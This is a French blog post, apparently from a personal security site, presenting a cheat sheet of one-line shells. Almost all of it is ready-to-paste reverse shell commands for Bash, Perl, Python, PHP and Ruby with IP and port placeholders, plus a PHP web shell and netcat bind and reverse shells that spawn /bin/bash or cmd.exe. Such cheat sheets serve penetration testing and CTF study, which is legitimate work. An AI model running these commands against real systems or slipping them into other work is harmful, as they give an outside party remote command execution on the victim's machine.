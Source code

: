 ```yaml
---
layout: post
title: Oneliner shell - Cheat sheet
subtitle: Simple shells & Reverse shells
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [Shell, Reverse shell, Cheat sheet, Python, PHP, Bash, Perl, Ruby, Netcat]
comments: false
---
```


**Créer un shell ou un reverse shell en une ligne de code, c'est faisable. Voici quelques possibilités.**

Remarque: pour les reverse shell commencer par lancer un listener du côté de la machine de l'attaquant:

~~~
nc -nlvp <PORT>
~~~

# Bash

## Reverse shell 

~~~
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
~~~

~~~
exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do $line 2>&5 >&5; done
~~~

~~~
exec /bin/sh 0</dev/tcp/<IP>/<PORT> 1>&0 2>&0
~~~

~~~
0<&196;exec 196<>/dev/tcp/<IP>/<PORT>; sh <&196 >&196 2>&196
~~~

# Perl

## Reverse shell

Version dépendante de « /bin/sh » :

~~~
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

Version indépendante de « /bin/sh » pour Linux (avec fork) :

~~~
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
~~~

Si le système cible est un Windows (sans fork) :

~~~
perl -MIO -e "$c=new IO::Socket::INET(PeerAddr,'<IP>:<PORT>');STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;"
~~~

# Python 

## Reverse shell

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

# PHP

## Web shell

~~~
<?php system($_GET['cmd']);?>
~~~

## Reverse shell

~~~
php -r '$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);`/bin/sh -i <&3 >&3 2>&3`;'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);system("/bin/sh -i <&3 >&3 2>&3");'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
~~~

# Ruby

## Reverse shell 

One-line dépendante de « /bin/sh » :

~~~
ruby -rsocket -e'f=TCPSocket.open("<IP>",<PORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
~~~

Version indépendante de « /bin/sh » pour Linux (avec fork) :

~~~
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<IP>","<PORT>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
~~~

Version pour Windows (sans fork) :

~~~
ruby -rsocket -e "c=TCPSocket.new('<IP>','<PORT>');while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end"
~~~

# Netcat

## Bind shell

~~~
#Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555

# Windows
nc.exe -nlvp 4444 -e cmd.exe
~~~

## Reverse shell

~~~
# Linux
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash

# Windows
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
~~~

Références:

- Acunetix, Web shells 101, [https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)
- Asafety, Reverse-shell one-liner Cheat Sheet, [https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/)
- Reverse shells, [https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html](https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html)
- Reverse shells, [https://alamot.github.io/reverse_shells/](https://alamot.github.io/reverse_shells/)


[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
























































**Poursuivez avec:**

- [PicoCTF 2018 - Forensics](https://0xss0rz.github.io/2019-08-21-picoCTF-Forensics-Write-Ups/)

- [PicoCTF 2018 - General Skills](https://0xss0rz.github.io/2019-08-22-picoCTF-General-Skills-Write-Ups/)

- [PicoCTF 2018 - Cryptography](https://0xss0rz.github.io/2019-08-22-picoCTF-Cryptography-Write-Ups/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).


